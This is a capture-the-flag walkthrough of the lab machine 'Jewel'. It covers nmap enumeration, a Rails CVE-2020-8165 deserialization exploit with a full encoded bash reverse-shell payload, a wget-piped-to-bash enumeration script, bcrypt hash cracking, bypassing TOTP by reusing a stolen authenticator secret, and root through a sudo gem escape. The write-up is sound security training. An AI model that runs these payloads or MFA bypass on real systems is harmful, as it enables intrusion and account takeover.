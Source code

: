# Jewel

This is the write-up for the box Jewel that got retired at the 13th February 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.211    jewel.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/jewel.nmap 10.10.10.211
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-title: 10.10.10.211 Git
|_Requested resource was http://10.10.10.211:8000/gitweb/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-title: BL0G!
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8080)

The web page on port 8080 has the title _"BL0G!"_ an looks like a custom developed website.
There are articles from the users _jennifer_ and _bill_ which could be potential usernames.

On the top right it is possible to _Sign Up_ and _Log In_.
After signing up and login in, there is not more functionality than before.

The HTTP Server header shows that it is powered by **nginx 1.14.2** and **Phusion Passenger 6.0.6**.
The software [Phusion Passenger](https://github.com/phusion/passenger) is a web server that supports Ruby, Python and Node.js.

## Checking HTTP (Port 8000)

On the web page on port 8000 a **Git repository** is hosted with the description _"BL0G!"_.
This seems to be the source code of the web application on port 8080.

It can be downloaded by clicking on _Snapshot_ and then the archive can be decompressed:
```
tar -xvzf git-5d6f436.tar.gz
```

In there is a _config.ru_ and _Gemfile_ which means that it is developed with **Ruby on Rails**.
The file _Gemfile.lock_ shows all modules and versions of this Ruby application:
```
(...)
rails (5.2.2.1)
```

The version of the **Rails** module for the web server is [version 5.2.2.1](https://rubygems.org/gems/rails/versions/5.2.2.1) from March 2019.
When searching through the [CVEs on Mitre](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=rails), we find [CVE-2020-8165](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165):

> "A deserialization of untrusted data vulnernerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE"

It can be checked if the application is vulnerable to this by searching for the string in the [vulnerability description](https://groups.google.com/g/rubyonrails-security/c/bv6fW4S0Y1c):
```
grep -iR "raw: true"
```
```
app/controllers/application_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
app/controllers/users_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
```

In the [Ruby on Rails documentation](https://guides.rubyonrails.org/caching_with_rails.html#activesupport-cache-memcachestore) the _fetch_ method and _raw_ is explained.

### Exploiting Web Application on Port 8080

For this vulnerability there is [Proof-of-Concept code on GitHub](https://github.com/masahiro331/CVE-2020-8165).

The _fetch_ method is used in _app/controllers/users_controller.rb_ in the _update_ function when editing a users profile.
We created a user earlier and the _Username_ field can be used to send a serialized object:
```
http://10.10.10.211:8080/users/18/edit
```

Installing `rails`:
```
apt install rails
```

Creating new Rails project:
```
rails new exploit

cd exploit
```

Staring `rails console` and creating serialized object:
```
rails console
```
```
irb(main):> code = '`/bin/bash -c "bash -i >& /dev/tcp/10.10.14.6/9001 0>&1"`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)
```

Serialized object:
```
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3E%60%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.6%2F9001+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```

Sending a request with the serialized object to the server in the _username_ parameter:
```
POST /users/18/edit HTTP/1.1
Host: 10.10.10.211:8080
(...)

utf8=%E2%9C%93&_method=patch&authenticity_token=y92tnwcDEsuRKgVHGNSAHY%2FhR6Rp7L1q6tOd2XX5O7gE74o9%2Fkc1KJ%2Fg7LcRnr%2F9C%2BbaimXKDv4tu8NQMADj1A%3D%3D&user%5Busername%5D=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3E%60%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.6%2F9001+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T&commit=Update+User
```

Browsing to the profile:
```
GET /users/18 HTTP/1.1
```

After requesting the profile, the object will get processed, execute the code and a reverse shell as _bill_ returns.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
wget -O - -q 10.10.14.6/linpeas.sh | bash
```

It finds two password hashes in the file _/var/backups/dump_2020-08-27.sql_ and _/home/bill/blog/bd.sql_:
```
jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
```
```
bill:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
jennifer:$2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
```

Trying to crack the hashes with **Hashcat**:
```
hashcat -m 3200 jewel.hashes /usr/share/wordlists/rockyou.txt --username
```

It cracks the password of _bill_ from the SQL dump file and it is:
> spongebob

We are this user at the moment, but with the password it is possible to check the `sudo` permissions:
```
sudo -l

[sudo] password for bill:
Verification code:
```

After the password is validated, it asks for a _Verification code_ and this looks like a **Multi-Factor Authentication** mechanism.
In the home directory of _bill_ is a hidden file called _.google_authenticator_ with some content:
```
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```

Lets copy this to our local client and install **OathTool** to generate our own **One-Time-Pad (OTP)**:
```
apt install oathtool
```

Generating a token with the copied file:
```
oathtool --totp -b @google_authenticator
```

This token changes after a short while, so it may take several tries, but after that `sudo -l` will show the root permissions for this user:
```
User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

The user _bill_ can run `gem` as root and this is the command line tool for the package repository **RubyGems** for Ruby.

This binary has an entry in [GTOFBins](https://gtfobins.github.io/gtfobins/gem/#sudo) with which it is possible to escalate privileges:
```
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

It works and starts a shell as root!
